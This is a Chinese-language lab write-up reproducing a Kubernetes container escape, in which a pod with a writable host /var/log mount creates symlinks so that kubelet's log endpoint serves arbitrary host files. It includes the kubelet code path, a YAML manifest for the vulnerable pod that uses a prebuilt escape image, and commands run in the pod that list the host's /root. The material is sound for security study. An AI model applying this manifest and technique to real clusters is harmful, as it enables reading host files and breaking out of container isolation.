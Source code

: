 # 挂载 log 目录导致容器逃逸

## 漏洞描述

当 pod 以可写权限挂载了宿主机的 `/var/log` 目录，且 pod 里的 service account 有权限访问该 pod 在宿主机上的日志时，攻击者可以通过在容器内创建符号链接来完成简单逃逸。

下图展示了 `kubectl logs <pod-name>` 如何从 pod 中检索日志：

![](images/挂载%20log%20目录导致容器逃逸/image-20250520141902202.png)

kubelet 会在宿主机上的 `/var/log` 目录中创建一个目录结构，如图符号①，代表节点上的 pod。但 `0.log` 实际上是一个符号链接，指向 `/var/lib/docker/containers` 目录中的容器日志文件。当使用 `kubectl logs <pod-name>` 命令查询指定 pod 的日志时，实际上是向 kubelet 的 `/logs/pods/<path_to_0.log>` 接口发起 HTTP 请求。对于该请求的处理逻辑如下：

`kubernetes\pkg\kubelet\kubelet.go:1371`

```go
if kl.logServer == nil {
		kl.logServer = http.StripPrefix("/logs/", http.FileServer(http.Dir("/var/log/")))
}
```

kubelet 会解析该请求地址，去 `/var/log` 对应的目录下读取 log 文件并返回。当 pod 以可写权限挂载了宿主机上的 `/var/log` 目录时，可以在该路径下创建一个符号链接，指向宿主机的根目录，然后构造包含该符号链接的恶意 kubelet 请求，宿主机在解析时会解析该符号链接，导致可以读取宿主机任意文件和目录。

参考链接：

- https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts
- https://github.com/danielsagi/kube-pod-escape

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f mount-var-log.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `mount-var-log` 的 pod：

```
kubectl get pods -n metarget
-----
NAME            READY   STATUS    RESTARTS   AGE
mount-var-log   1/1     Running   0          28s
```

![](images/挂载%20log%20目录导致容器逃逸/image-20250520141234815.png)

宿主机的 `/var/log` 被挂载在容器内部且该 pod 有权限访问日志。

> 如果此处报错 `ErrImagePull`，可以采用如下形式将镜像直接导入 minikube：

```
docker pull danielsagi/kube-pod-escape
minikube image load danielsagi/kube-pod-escape:latest
```

## 漏洞复现

mount-var-log.yaml 中使用的是 [该项目](https://github.com/danielsagi/kube-pod-escape) 中的镜像 `danielsagi/kube-pod-escape`。构建好的 pod 内部已经内置了漏洞利用代码，可通过自定义命令读取宿主机的任意文件或目录：

```
lsh 等于宿主机上的ls
cath 等于宿主机上的cat
```

执行以下命令进入容器:

```shell
kubectl exec -it mount-var-log -n metarget -- bash
```

执行命令：

```
kubectl exec -it mount-var-log -n metarget -- bash
root@mount-var-log:~/exploit# lsh /root
.bashrc
.kube/
.profile
.sudo_as_admin_successful
cdk/
```

![](images/挂载%20log%20目录导致容器逃逸/image-20250520151106730.png)

> 由于我们是在 minikube 上运行 kubernetes，这里逃逸到的是 minikube 虚拟机，可以看到，pod 执行 `lsh /root` 后列出的目录确实是 minikube 虚拟机的 `/root` 目录。

![](images/挂载%20log%20目录导致容器逃逸/image-20250520151148672.png)

## 环境复原

```
kubectl delete -f mount-var-log.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

mount-var-log.yaml，修改自 [kube-pod-escape/escaper.yml](https://github.com/danielsagi/kube-pod-escape/blob/master/escaper.yml)：

```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: logger
  namespace: metarget
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: user-log-reader
  namespace: metarget
rules:
- apiGroups: [""]
  resources:
  - nodes/log
  verbs: ["get", "list", "watch"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: user-log-reader
  namespace: metarget
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: user-log-reader
subjects:
- kind: ServiceAccount
  name: logger
  namespace: metarget
---
apiVersion: v1
kind: Pod
metadata:
  name: mount-var-log
  namespace: metarget
spec:
  serviceAccountName: logger
  containers:
  - name: escaper
    image: danielsagi/kube-pod-escape
    imagePullPolicy: IfNotPresent
    volumeMounts:
    - name: logs
      mountPath: /var/log/host
  volumes:
  - name: logs
    hostPath:
      path: /var/log/
      type: Directory
```
